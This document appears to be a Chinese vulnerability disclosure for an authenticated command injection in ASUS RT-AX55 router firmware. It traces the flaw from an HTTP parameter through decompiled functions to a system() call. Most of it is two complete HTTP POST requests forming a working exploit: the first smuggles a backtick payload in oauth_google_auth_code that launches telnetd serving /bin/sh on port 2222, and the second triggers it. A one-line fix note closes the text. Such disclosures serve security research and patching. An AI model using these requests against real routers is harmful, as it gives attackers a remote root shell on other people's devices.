






# 0x01  漏洞描述 #

asus `rt-AX55` 路由器存在身份验证后的命令注入漏洞。

# 0x02  固件分析 #

固件下载：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
直接binwalk用-Me提取即可

# 0x03  代码分析 #

分析`sbin/rc`二进制文件，在函数`FUN_0004d76c`中，从http请求参数`action_script`获取`oauth_google_drive_gen_token`值，进而进入函数`FUN_000bc5c4`。

在函数`FUN_000bc5c4`中调用`FUN_000b95b4`。

进入函数`FUN_000b95b4`，从nvram中获得`oauth_google_auth_code`的值，最后将`oauth_google_auth_code`的值拼接到system函数。

# 0x04  漏洞复现 #

设置`oauth_google_auth_code`的值。

request1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 564
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=8T9woufq7K9kEL4ZJfsNODKdPeobVwd; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=177%40qq.com&PM_SMTP_AUTH_USER=1947&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&oauth_google_auth_code='`telnetd%20-l%20/bin/sh%20-p%202222`'
    

触发命令注入。

request2：

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 533
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=8T9woufq7K9kEL4ZJfsNODKdPeobVwd; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Boauth_google_drive_gen_token&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=1877%40qq.com&PM_SMTP_AUTH_USER=19&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

# 0x05  漏洞修复 #

过滤`oauth_google_auth_code`的中单引号。